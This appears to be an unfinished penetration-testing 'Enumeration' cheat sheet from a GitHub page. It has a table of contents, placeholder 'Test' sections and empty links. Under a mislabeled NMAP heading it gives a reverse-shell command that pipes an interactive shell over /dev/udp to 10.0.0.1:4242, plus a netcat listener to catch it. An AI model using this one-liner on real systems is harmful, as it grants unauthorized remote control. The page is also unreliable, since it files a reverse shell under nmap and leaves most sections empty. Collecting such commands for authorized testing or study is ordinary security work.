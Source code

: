 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [Directory](#Directory)
   * [DB](#DIRB)
   * [DIRBUSTER](#DIRBUSTER)
* [Credentials](#)
   * [John-the-Ripper](#)
   * [hashcat](#)
* [](#)
* [](#)
* [](#)
* [](#)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
https://wfuzz.readthedocs.io/en/latest/user/basicusage.html
https://medium.com/bugbountywriteup/how-to-brute-force-efficiently-without-burp-pro-1bb2a414a09f
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```

